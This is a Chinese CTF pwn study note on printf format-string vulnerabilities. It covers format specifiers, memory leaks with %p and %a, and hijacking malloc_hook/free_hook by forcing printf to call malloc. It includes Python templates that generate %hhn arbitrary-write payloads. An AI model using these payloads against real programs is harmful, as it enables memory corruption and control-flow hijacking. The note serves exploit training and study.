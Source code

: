 
# libc函数漏洞

# printf

著名的**格式化字符串漏洞**就不说啦~ `printf`家族的函数都存在这个漏洞

> printf,  fprintf,  dprintf,  sprintf,  snprintf, vprintf, vfprintf, vdprintf, vsprintf, vsnprintf 

## 常用格式

| 格式符 | 用途                           | 备注                                                         |
| ------ | ------------------------------ | ------------------------------------------------------------ |
| `%p`   | 以指针格式输出栈中变量的地址   | `$`用于指定位置参数，e.g.`%13$p`                             |
| `%s`   | 输出栈中指针指向的字符串       | 若指针不合法则输出`(nil)`                                    |
| `%a`   | 以double格式输出栈中变量       | 常见于`printf_chk`泄漏`libc`，详见[#1](#泄漏内存)            |
| `%c`   | 以char格式输出栈中变量         | 打印过多字符将调用`malloc`，详见[#2](#触发malloc)       |
| `%n`   | 将已输出的字符数保存到栈中指针 | 若指针不合法则报错<br />`%n`-4字节; `%hn`-2字节; `%hhn`-1字节 |

## 泄漏内存

`%p`用于泄漏内存就不多说了

用`%a`的时候要注意一下输出格式的问题，比如有如下输出：

```c
0x0.07fcf47895ap-1022
```

由于是小数的形式打印的，变量末尾的0会被自动省略掉，需要手动还原一下：

```c
0x07fcf4789500
```



## 任意写

### case1: buf足够大

如果buf足够大，可以考虑同时使用多个格式符，一次完成变量的修改。

下面是keer师傅的`%hhn`大法可以快速完成任意写，payload长度至少为`128`

```python
def fmt(data,addr,off):
    arg0=(data)&0xff
    arg1=(data&0xff00)>>8
    arg2=(data&0xff0000)>>16
    arg3=(data&0xff000000)>>24
    arg4=(data&0xff00000000)>>32
    arg5=(data&0xff0000000000)>>40
    print arg0,arg1,arg2,arg3
    # arg6=(data&0xf f000000000000)>>48
    # arg7=(data&0xf f00000000000000)>>56
    pay1='%'+str(arg0)+'c%'+str(off+10)+'$hhn'
    pay2='%'+str( (arg1-arg0+0x100)%0x100)+'c%'+str(off+11)+'$hhn'
    pay3='%'+str( (arg2-arg1+0x100)%0x100)+'c%'+str(off+12)+'$hhn'
    pay4='%'+str( (arg3-arg2+0x100)%0x100)+'c%'+str(off+13)+'$hhn'
    pay5='%'+str( (arg4-arg3+0x100)%0x100)+'c%'+str(off+14)+'$hhn'
    pay6='%'+str( (arg5-arg4+0x100)%0x100)+'c%'+str(off+15)+'$hhn'
    payload = pay1+pay2+pay3+pay4+pay5+pay6 # +'%100000c'
    payload = payload.ljust(8*10,'A')
    payload+= p64(addr)
    payload+= p64(addr+1)
    payload+= p64(addr+2)
    payload+= p64(addr+3)
    payload+= p64(addr+4)
    payload+= p64(addr+5)
    return payload
```

`%hhn`一次写1个字节，相当于是`byte/char`型，最大范围是`0xff`，所以`(arg1-arg0+0x100)%0x100`这样的溢出写法，可以在不排序的情况下准确覆盖变量。

由于每次只改1字节，使用`%hhn`快速完成任意写，不足之处就是payload太长。

### case2: buf不够大

如果buf长度不够，可以考虑重复利用`printf`，多次攻击完成变量的修改。

下面是藕自己写的模板，payload长度最少是`32`字节：

```python
def alter_byte(addr,data):
    if data==0:
        payload = "%10$hhn"
    else:
        payload = "%%%dc%%10$hhn"%(data)
    payload = payload.ljust(24,'T')
    payload += p64(addr)
    sl(payload)
    return rc()

def alter_dw(addr,data):
    alter_byte(addr,data&0xff)
    alter_byte(addr+1,(data>>8)&0xff)
    alter_byte(addr+2,(data>>16)&0xff)
    alter_byte(addr+3,(data>>24)&0xff)

def alter_qw(addr,data):
    alter_dw(addr,data)
    alter_dw(addr+4,data>>32)

```

>其中10是offset，用的时候改一下

## 触发malloc

`%100000c`表示在输出字符时向左侧填充空格，最终输出长度为`100000`的字符串。当字符串长度过大的时候，`printf`内部将调用`malloc`申请空间作为缓冲器，输出结束后会`free`掉这片空间。

利用方式：

* 篡改`malloc_hook`/`free_hook`，使用`%100000c`触发`malloc`/`free`，劫持程序控制流
* 和堆相关利用结合，利用`printf`隐试调用`malloc`

> 此外，从原理上看`%100000s`,`%10000d`等类似格式也可达到同样效果。

## 一次完成泄漏&修改
### 格式符`*`
* `%<N>d`这个很常用，打印长度为N的字符串，和`%<N>c`差不多

* `%*25$d`从栈中取变量作为`N`

  > 比如`25$`处的值是`0x100`，那么这个格式化字符串就相当于`%256d`

?> 那么可以理解为`*`相当于c语言取值符号...嘛？

刨根问底一下，查看`man`文档，找到`*`的用方法：

![](http://image.taqini.space/img/20200405185627.png)

根据文档写个栗子：

```c
int main(){
    int width=10;
    int num=2333;
    puts("\ncase1:");
    printf("%*d", width, num);    
    puts("\ncase2:");
    printf("%2$*1$d", width, num);
}
```

运行得到如下输出：

```
case1:
      2333
case2:
      2333
```

### House of Husk

[todo](https://ptr-yudai.hatenablog.com/entry/2020/04/02/111507)...

### 小结

* `*`如果单独使用，则**按顺序**取参数列表中的参数
* `*`如果配合`$`使用，则取参数列表中**相应位置**的参数，如`*1$`
* 取出的参数将格式化为**十进制数**，用作限制**字符串宽度**

### 用途

* 缩短格式化字符串长度

## 练习题

* [0CTF-EasiestPrintf](https://poning.me/2017/03/23/EasiestPrintf/)
* [ACTF-fmt64](http://taqini.space/2020/02/13/ACTF2020-writeup/#fmt64)
* [eonew-easy_printf](http://pwn.eonew.cn/) (根据Ex师傅平台的要求就不公开wp了) 
* [ACTF-chk_rop](https://github.com/TaQini/ctf/tree/master/ACTF2020/pwn/unsolved/chk_rop) (printf_chk)
* [MidnightSun2020-pwn4](http://taqini.space/2020/04/05/MidnightsunCTF-2020-pwn-pwn4/)(一次完成泄漏&修改)

> 更新日期：2020年 04月 05日 星期日 19:35:52 CST



# scanf



# abs


